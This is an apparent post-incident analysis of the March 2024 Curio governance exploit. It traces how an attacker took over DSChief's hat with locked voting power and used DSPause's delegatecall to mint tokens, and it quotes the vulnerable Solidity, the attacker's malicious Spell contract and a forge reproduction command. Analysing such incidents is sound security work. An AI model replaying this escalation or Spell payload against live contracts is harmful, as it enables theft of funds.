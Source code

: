 # Curio Public Mint
- **Type:** Exploit
- **Network:** Ethereum 
- **Total lost**: ~16MM USD 
- **Category:** Access Control
- **Vulnerable contracts:**
- - [Curio Chief](https://etherscan.io/address/0x579A3244f38112b8AAbefcE0227555C9b6e7aaF0#code)
- - [Curio Pause](https://etherscan.io/address/0x1e692eF9cF786Ed4534d5Ca11EdBa7709602c69f#code)

- **Attack transactions:**
- - [Privilege escalation and mint](https://etherscan.io/tx/0x4ff4028b03c3df468197358b99f5160e5709e7fce3884cc8ce818856d058e106)
  
- **Attacker Addresses**: 
- - Attacker EOA: [0xdaAa6294C47b5743BDafe0613d1926eE27ae8cf5](https://etherscan.io/address/0xdaAa6294C47b5743BDafe0613d1926eE27ae8cf5)
- - Attacker Contract (verified): [0x1E791527AEA32cDDBD7CeB7F04612DB536816545](https://etherscan.io/address/0x1E791527AEA32cDDBD7CeB7F04612DB536816545)
  
- **Attack Block:**:  `19,498,911`  
- **Date:** Mar 23, 2024
- **Reproduce:** `forge test --match-contract=Exploit_Curio -vvv`

## Step-by-step 
1. The attacker locked tokens into the `DSChief` contract.
2. Accumulated enough voting power.
3. Displaced (lifted) the current hat and set their contract as the new hat (without requiring many tokens).
4. The `DSPause` contract, upon making a `delegatecall`, checked `DSChief.canCall`, which returned true for the attacker's contract.
5. Consuming the authorized minter role from `DSPause`, the attacker executed a malicious instructions through a custom `Spell` contract to mint tokens directly to themselves.


## Detailed Description
Curio Finance leverages MakerDAO contracts for managing specific protocol functionalities. Their CSC Curio token, a `DSToken`, designates the `DSPauseProxy` contract as its minter. The `DSPause` contract relies on `DSChief.canCall` to verify if an authorized (privileged) call is permitted.
Then, executes a `delegatecall` through its proxy.

The operational vulnerability resided in the `DSChief` contract, which manages a HAT account that can be reconfigured with sufficient voting power. The attacker exploited this by locking tokens in `DSChief`, getting enough votes to lift and displace the current hat, subsequently positioning their contract as the new hat. The main issue was that the current hat did not have enough voting power which allowed the easy displacement. 

The attacker was able to displace the `hat` by making the following calls on [chief.sol](https://github.com/CurioTeam/ds-chief/blob/simplify/src/chief.sol).

- Get initial voting weight.
```solidity
    function lock(uint128 wad)
        note
    {
        GOV.pull(msg.sender, wad);
        IOU.mint(wad);
        IOU.push(msg.sender, wad);
        deposits[msg.sender] = wadd(deposits[msg.sender], wad);
        addWeight(wad, votes[msg.sender]);
    }

    function addWeight(uint128 weight, bytes32 slate)
        internal
    {
        var yays = slates[slate];
        for( uint i = 0; i < yays.length; i++) {
            approvals[yays[i]] = wadd(approvals[yays[i]], weight);
        }
    }
```

```solidity
    function vote(bytes32 slate)
        note
    {
        uint128 weight = deposits[msg.sender];
        subWeight(weight, votes[msg.sender]);
        votes[msg.sender] = slate;
        addWeight(weight, votes[msg.sender]);
    }
```

- Displace the previous hat:
```solidity
    function lift(address whom)
        note
    {
        require(approvals[whom] > approvals[hat]);
        hat = whom;
    }
```

Since the authorized minter of the CSC Token is the `DSPauseProxy` which is controlled by the `DSPause` contract, by getting enough privileges through
the escalation made on the Chief the attacker was able to make the arbitrary `delegatecall` from the proxy.

- [`roles.sol`](https://github.com/dapphub/ds-roles/blob/495863375b87efe062eb3b723e6a199633ec7e51/src/roles.sol#L40):

These function were called from the pause contract to validate the caller's privileges.
```solidity
    function canCall(address caller, address code, bytes4 sig)
        constant
        returns (bool)
    {
        if( isUserRoot(caller) || isCapabilityPublic(code, sig) ) {
            return true;
        } else {
            var has_roles = getUserRoles(caller);
            var needs_one_of = getCapabilityRoles(code, sig);
            return bytes32(0) != has_roles & needs_one_of;
        }
    }
```

- `chief.sol`:
```solidity
    function isUserRoot(address who)
        constant
        returns (bool)
    {
        return (who == hat);
    }
```

- [`pause.sol`](https://github.com/CurioTeam/ds-pause/blob/solc-0.5-0.6/src/pause.sol):

```solidity
    modifier auth {
        require(isAuthorized(msg.sender, msg.sig), "ds-auth-unauthorized");
        _;
    }

    function isAuthorized(address src, bytes4 sig) internal view returns (bool) {
        if (src == address(this)) {
            return true;
        } else if (src == owner) {
            return true;
        } else if (authority == address(0)) {
            return false;
        } else {
            return DSAuthority(authority).canCall(src, address(this), sig);
        }
    }
```

The following functions were used to enqueue and call for the execution on `DSPause`.
```solidity
    function plot(address usr, bytes32 tag, bytes memory fax, uint eta)
        public note auth
    {
        require(eta >= add(now, delay), "ds-pause-delay-not-respected");
        plans[hash(usr, tag, fax, eta)] = true;
    }
```

```solidity
    function exec(address usr, bytes32 tag, bytes memory fax, uint eta)
        public note
        returns (bytes memory out)
    {
        require(plans[hash(usr, tag, fax, eta)], "ds-pause-unplotted-plan");
        require(soul(usr) == tag,                "ds-pause-wrong-codehash");
        require(now >= eta,                      "ds-pause-premature-exec");

        plans[hash(usr, tag, fax, eta)] = false;

        out = proxy.exec(usr, fax);
        require(proxy.owner() == address(this), "ds-pause-illegal-storage-change");
    }
```

Finally, make the `delegatecall` from the `DSPauseProxy`:

```solidity
    function exec(address usr, bytes memory fax)
        public auth
        returns (bytes memory out)
    {
        bool ok;
        (ok, out) = usr.delegatecall(fax);
        require(ok, "ds-pause-delegatecall-error");
    }
```

Upon making that `delegatecall`, `DSPause` verifies through `DSChief.canCall`, which returned true given the attacker's contract was now the hat. Since `DSPause` executes actions with delegatecall and possessed minting authority for the token, the attacker deployed a malicious custom `Spell` contract to mint tokens directly to their address. 

- `Spell` contract:
```solidity
    function act(address user, IMERC20 cgt) public {
        IVat vat = IVat(0x8B2B0c101adB9C3654B226A3273e256a74688E57);
        IJoin daiJoin = IJoin(0xE35Fc6305984a6811BD832B0d7A2E6694e37dfaF);

        vat.suck(address(this), address(this), 10 ** 9 * 10 ** 18 * 10 ** 27);

        vat.hope(address(daiJoin));
        daiJoin.exit(user, 10 ** 9 * 1 ether);

        cgt.mint(user, 10 ** 12 * 1 ether);
    }
```

Then, the attacker made multiple swaps and cross-chain transfers using different providers.

## Possible mitigations

## Sources and references
- [Curio Tweet](https://twitter.com/curio_invest/status/1771635979192774674)
- [Hacken Tweet](https://x.com/hackenclub/status/1772288824799801401)
- [Rekt Article](https://rekt.news/curio-rekt/)
